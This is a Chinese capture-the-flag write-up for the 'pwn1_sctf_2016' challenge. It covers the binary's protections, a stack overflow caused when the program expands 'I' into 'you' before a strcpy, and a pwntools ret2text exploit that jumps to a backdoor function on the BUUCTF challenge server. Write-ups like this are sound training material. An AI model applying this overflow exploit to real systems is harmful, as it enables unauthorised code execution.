



# 知识点

ret2text


# 题目分析

1. 查看保护情况，32位程序，开启NX保护。

   ```python
   [*] '/root/Desktop/pwn1_sctf_2016'
       Arch:     i386-32-little
       RELRO:    Partial RELRO
       Stack:    No canary found
       NX:       NX enabled
       PIE:      No PIE (0x8048000)
   ```

2. 分析main函数，发现replace反汇编代码存在问题。观察汇编代码，调用replace函数前会将v4（“you”）、v6（“I”）、v3（v3 = input）作为参数入栈。

   经过测试，程序会将输入的 I 替换为 you ，最后使用strcpy将字符串传递给s造成栈溢出。

   

   

3. 继续寻找，发现程序存在后门函数，直接ret2text即可。

   s到ebp的距离为0x3C，gets只能读取32长度字符，因此使用I可以代替you作为3个字符输入。

   

# Exp

```python
from pwn import *

io = process('./pwn1_sctf_2016')
io = remote('node4.buuoj.cn', '27379')

backdoor = 0x08048F0D

payload = 'I' * 20 + 'dead' + p32(backdoor)
io.sendline(payload)

io.interactive()
```

